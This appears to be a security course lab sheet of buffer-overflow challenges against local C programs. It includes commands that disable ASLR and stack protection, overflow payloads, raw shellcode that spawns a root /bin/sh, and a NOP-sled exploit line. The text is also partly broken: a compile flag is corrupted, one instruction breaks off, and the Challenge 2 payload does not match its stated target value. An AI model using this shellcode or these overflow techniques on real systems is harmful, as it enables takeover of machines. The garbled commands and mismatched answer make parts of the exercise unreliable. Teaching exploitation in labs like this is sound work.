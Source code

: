 # Week 2 - Malware and Buffer Overflow

## Challenge 1

Disable ALSR on your machine using `echo 0 | tee /proc/sys/kernel/randomize_va_space`

Compile `challenge1.c` using `gcc challenge1.c -o challenge1 -m32 -fno-stack-protector -z execstack -g`

Run the file with an input that will change the value of modified to something other than 0.

Add a `printf` statements to your code that will print the pointer values for buffer and modified variables.

Run the program several times and observe the pointer values.

Recompile the program without the `-fno-stack-protector`. What changed? Is your attack still possible?

Enable ALSR on your machine and run the program again (modify the command from the beginning of this task). What changed? How ALSR protects against buffer overflow attacks? 

```
./challenge1 aaaaaaaaa
```

## Challenge 2

Disable ALSR on your machine using `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

Compile `challenge2.c` using `gcc challenge2.c -o challenge2 -m32 -fno-stack-protector -z exe<cstack -g`

Run the file with an input that will change the value of modified to 0x0d0a0d0a. 

```
$./challenge2 `python2 -c 'print "A"*64 + "\x0b\x0d\x0b\x0d"'`
```

## Challenge 3

Analyze the code of `challenge3.c`. Compile it using:
````
gcc challenge3.c -o challenge3 -m32 -fno-stack-protector -z execstack -g
```
Your goal is to 


Shell code:
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Run the file with an input that will cause the winner function to be called. 
```
./challenge3 `python -c 'print "A"*16 + "\xcb\x91\x04\x08"'`
```

```
/challenge3 `python2 -c 'print "\x90"*359 + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x30\xd4\xff\xff"'`
```
